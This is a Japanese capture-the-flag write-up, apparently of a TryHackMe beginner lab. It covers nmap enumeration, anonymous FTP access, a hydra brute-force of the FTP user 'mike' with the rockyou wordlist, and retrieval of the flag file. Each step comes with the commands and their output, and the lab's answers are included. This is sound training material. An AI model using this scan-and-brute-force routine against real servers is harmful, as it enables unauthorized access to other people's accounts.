 ## 1.環　境
- ターゲットIP：10.10.119.98  
  
## 2.戦　略
### 2-1.サーバーの状態を列挙
- ユーザ名
- Anonymousユーザの存在
- 各バージョン情報
  
### 2-2.侵　入
- パスワードクラック
- バージョンの脆弱性を突く侵入
- 認証情報取得の上侵入
  
## 3.実　施
### 3-1.ターゲットマシン上で開いている  ポートの数はいくつですか?
- `nmap -A`を実行  
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.119.98                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 04:47 JST
Nmap scan report for 10.10.119.98
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: Welcome

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.25 seconds

```
flag:`2`
  
### 3-2.ftp はどのポートで実行されていますか?
- `nmap -A`の結果から
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
```
flag:`21`
  
### 3-3.どのような種類の FTP が実行されていますか? 
- `nmap -A`の結果から
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
```
flag:`vsftpd`
  
### 3-4.FTP サーバーにAnonymousログインできるかどうかを確認。FTP ディレクトリ内のファイルの名前は何ですか?
- `Anonymous`ログイン試行
- `ls`でディレクトリ表示
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.119.98
Connected to 10.10.119.98.
220 Welcome to the administrator FTP service.
Name (10.10.119.98:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
```bash
ftp> ls
229 Entering Extended Passive Mode (|||50076|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
226 Directory send OK.
```
flag:`PUBLIC_NOTICE.txt`
  
### 3-5.ユーザー名として考えられるものは何でしょうか?
- `PUBLIC_NOTICE.txt`を`get`
- ローカルで`PUBLIC_NOTICE.txt`を表示
```bash
ftp> get PUBLIC_NOTICE.txt
local: PUBLIC_NOTICE.txt remote: PUBLIC_NOTICE.txt
229 Entering Extended Passive Mode (|||50866|)
150 Opening BINARY mode data connection for PUBLIC_NOTICE.txt (353 bytes).
100% |***********************************************************************************************************************************************************************************************|   353        3.65 MiB/s    00:00 ETA
226 Transfer complete.
353 bytes received in 00:00 (1.37 KiB/s)
ftp> exit
221 Goodbye.

```
```bash
┌──(kali㉿kali)-[~]
└─$ cat PUBLIC_NOTICE.txt
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,

Mike 
```
おそらく何かのメモと思料。  
`Mike`が名前っぽいのでsubmitしたらクリア  
  
flag:`Mike`
  
### 3-6.ユーザー「mike」のパスワードは何ですか?
- ユーザ名`Mike`を取得できているので、`hydra`でパスワードクラックできないか試してみる
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.119.98 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-10 05:00:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.119.98:21/
[21][ftp] host: 10.10.119.98   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-10 05:00:40

```
#### `hydra`のオプションについて：
- `-l`：ユーザ名の指定
- `-P`：パスワードリストの指定
- `/usr/share/wordlist/rockyou.txt`：`hydra`や`gobuster`などで頻出のパスワードリスト。まずはこれってやつ
  
`[21][ftp] host: 10.10.119.98   login: mike   password: password`でパスワードクラックに成功  
ユーザ名が既知ならクラックしやすい（感覚）  
  
flag:`password`


### 3-7.FTPサーバーに接続し、ftp.txtを探索。中身を答えよ。
- ユーザ名`mike`、パスワード`password`でログイン
- `ls`でディレクトリを確認し、`get`で`ftp.txt`をローカルにダウンロード
- ローカルに戻り、`cat`で中身を出力
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.119.98
Connected to 10.10.119.98.
220 Welcome to the administrator FTP service.
Name (10.10.119.98:kali): mike
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
```bash
ftp> ls
229 Entering Extended Passive Mode (|||32343|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
-rw-r--r--    1 1002     1006            0 Jun 09 19:40 test.txt
226 Directory send OK.
```
```bash
ftp> get ftp.txt
local: ftp.txt remote: ftp.txt
229 Entering Extended Passive Mode (|||25104|)
150 Opening BINARY mode data connection for ftp.txt (26 bytes).
100% |***********************************************************************************************************************************************************************************************|    26      298.71 KiB/s    00:00 ETA
226 Transfer complete.
26 bytes received in 00:00 (0.09 KiB/s)
```
```bash
┌──(kali㉿kali)-[~]
└─$ cat ftp.txt          
THM{y0u_g0t_th3_ftp_fl4g}
```
  
flag:`THM{y0u_g0t_th3_ftp_fl4g}`  
  
